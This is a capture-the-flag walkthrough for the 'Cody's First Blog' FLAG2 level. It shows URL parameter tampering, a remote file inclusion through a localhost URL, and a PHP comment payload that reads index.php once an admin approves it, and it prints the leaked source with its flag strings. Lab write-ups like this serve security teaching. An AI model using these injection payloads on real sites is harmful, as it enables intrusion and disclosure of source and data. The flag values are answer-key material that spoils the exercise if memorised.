



# Cody's First Blog - FLAG2

## 0x00 Modifiy URL Parameter

Try modify the url

http://127.0.0.1/xxxxxxxxxx/?page=admin.inc

To

http://127.0.0.1/xxxxxxxxxx/?page=index

The error shows

```
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 16384 bytes) in /app/index.php on line 20
```

So it will append **.php** at the end and execute the file.

## 0x01 SSRF / Inclusion Bug

http://127.0.0.1/xxxxxxxxxx/?page=http://localhost/index

Both the XSS and phpinfo() injection executed properly.

But still no flag.



## 0x02 Read File

Add a new comment to read index.php.

``` php
<?php echo readfile("index.php")?>
```

And approve it in admin page.



## 0x03 FLAG

Press **F12** to check the source again.



It print out the whole index.php file.

```php
<?php
	// ^FLAG^{FLAG2}$FLAG$
	mysql_connect("localhost", "root", "");
	mysql_select_db("level4");
	$page = isset($_GET['page']) ? $_GET['page'] : 'home.inc';
	if(strpos($page, ':') !== false && substr($page, 0, 5) !== "http:")
		$page = "home.inc";

	if(isset($_POST['body'])) {
		mysql_query("INSERT INTO comments (page, body, approved) VALUES ('" . mysql_real_escape_string($page) . "', '" . mysql_real_escape_string($_POST['body']) . "', 0)");
		if(strpos($_POST['body'], '<?php') !== false)
			echo '<p>^FLAG^{FLAG1}$FLAG$</p>'; 
?>
```